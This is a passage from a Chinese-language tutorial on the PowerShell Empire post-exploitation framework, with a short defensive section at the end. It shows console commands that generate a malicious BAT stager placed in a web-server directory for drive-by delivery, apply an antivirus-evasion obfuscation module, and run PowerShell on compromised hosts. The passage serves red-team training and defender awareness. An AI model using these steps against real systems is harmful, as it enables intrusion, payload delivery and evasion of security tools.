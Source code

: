 这展示了如何使用 Empire 模块，演示操作员如何从被攻陷的系统中提取敏感数据，如剪贴板内容。

## 网页驱动攻击

Empire 允许操作员进行网页驱动攻击，利用托管在网页服务器上的恶意脚本。下面是一个在 Empire 中设置网页服务器并将恶意有效载荷交付给目标的示例：

```
 # Within the Empire console
usestager windows/launcher_bat
set Listener http_listener
set OutFile /var/www/html/malicious.bat
generate
```

这将设置一个网页服务器，并生成一个 BAT 文件，目标访问时执行有效载荷，建立与 Empire 服务器的连接。

## 避免杀毒软件检测

PowerShell Empire 通过混淆技术提供逃避杀毒软件检测的功能。我们来演示如何混淆一个 PowerShell 脚本：

```
 # Within the Empire console
interact <agent_ID>
# Load the obfuscation module
usemodule powershell/obfuscate
# Set the script to obfuscate
set Script 'Write-Host "Hello, Empire!"' execute
```

这个示例展示了操作员如何使用 Empire 的混淆模块来混淆一个简单的 PowerShell 脚本。

## 动态脚本编写

PowerShell Empire 支持动态脚本编写，允许操作员在运行时执行脚本。下面是一个在被攻陷的系统上运行动态 PowerShell 脚本的示例：

```
 # Within the Empire console
interact <agent_ID>
# Run a dynamic PowerShell script
powershell -Command "Write-Host 'Dynamic script executed'"
```

操作员可以利用此功能在后期利用阶段（post-exploitation）在被攻陷系统上运行自定义的 PowerShell 脚本。

## 防御措施

防御者必须采用强大的安全措施来检测和缓解 PowerShell Empire 的活动。实施网络监控、应用白名单和端点保护解决方案至关重要。定期的安全培训可以帮助用户识别社会工程攻击，从而增强防御能力。

PowerShell Empire 是一个强大的后期利用框架，允许安全专家模拟真实世界的场景，并测试系统抵御高级威胁的能力。虽然它为红队演练和渗透测试提供了一个有效的工具，但也突出了组织实施强大防御措施的重要性，以防御这种复杂的攻击。了解 PowerShell Empire 的功能对于防御者和安全专家来说至关重要，有助于在面对不断变化的威胁时加强网络安全防护。

# 使用 Meterpreter 和 PowerShell 进行 C2
